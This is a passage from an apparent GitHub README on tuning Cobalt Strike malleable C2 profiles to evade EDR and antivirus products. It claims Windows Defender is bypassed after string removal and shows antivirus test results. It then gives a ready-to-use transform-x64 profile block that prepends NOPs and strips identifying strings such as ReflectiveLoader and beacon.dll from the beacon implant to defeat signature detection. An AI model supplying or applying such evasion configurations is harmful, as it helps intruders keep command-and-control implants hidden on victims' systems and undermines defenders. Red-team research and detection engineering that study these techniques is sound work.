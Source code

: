 The string msvcrt.dll is not shown anymore, resulting in Windows Defender being bypassed:

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Cobalt-Strike-Profiles-for-EDR-Evasion/blob/main/3img/11.png" 
<p align="center">

Testing it against various Antivirus products leads to some promising results (bear in mind that an unencrypted shellcode was used):

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Cobalt-Strike-Profiles-for-EDR-Evasion/blob/main/3img/12.png" 
<p align="center">

## Removing strings is never enough

Although having obfuscate enabled in our profile, we were still able to detect lots of strings inside the beacon’s stack:

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Cobalt-Strike-Profiles-for-EDR-Evasion/blob/main/3img/13.png" 
<p align="center">

We modified the profile a little by adding the following options to remove all the mentioned strings:

```
transform-x64 {
    prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; # prepend nops
    strrep "This program cannot be run in DOS mode" ""; # Remove this text
    strrep "ReflectiveLoader" "";
    strrep "beacon.x64.dll" "";
    strrep "beacon.dll" ""; # Remove this text
    strrep "msvcrt.dll" "";
    strrep "C:\\Windows\\System32\\msvcrt.dll" "";
    strrep "Stack around the variable" "";
    strrep "was corrupted." "";
    strrep "The variable" "";
    strrep "is being used without being initialized." "";
    strrep "The value of ESP was not properly saved across a function call.  This is usually a result of calling a function declared with one calling convention with a function pointer declared" "";
    strrep "A cast to a smaller data type has caused a loss of data.  If this was intentional, you should mask the source of the cast with the appropriate bitmask.  For example:" "";
    strrep "Changing the code in this way will not affect the quality of the resulting optimized code." "";
    strrep "Stack memory was corrupted" "";
    strrep "A local variable was used before it was initialized" "";
    strrep "Stack memory around _alloca was corrupted" "";
    strrep "Unknown Runtime Check Error" "";
    strrep "Unknown Filename" "";
    strrep "Unknown Module Name" "";
    strrep "Run-Time Check Failure" "";
    strrep "Stack corrupted near unknown variable" "";
    strrep "Stack pointer corruption" "";
    strrep "Cast to smaller type causing loss of data" "";
    strrep "Stack memory corruption" "";
    strrep "Local variable used before initialization" "";
    strrep "Stack around" "corrupted";
    strrep "operator" "";
    strrep "operator co_await" "";
    strrep "operator<=>" "";

    }
```
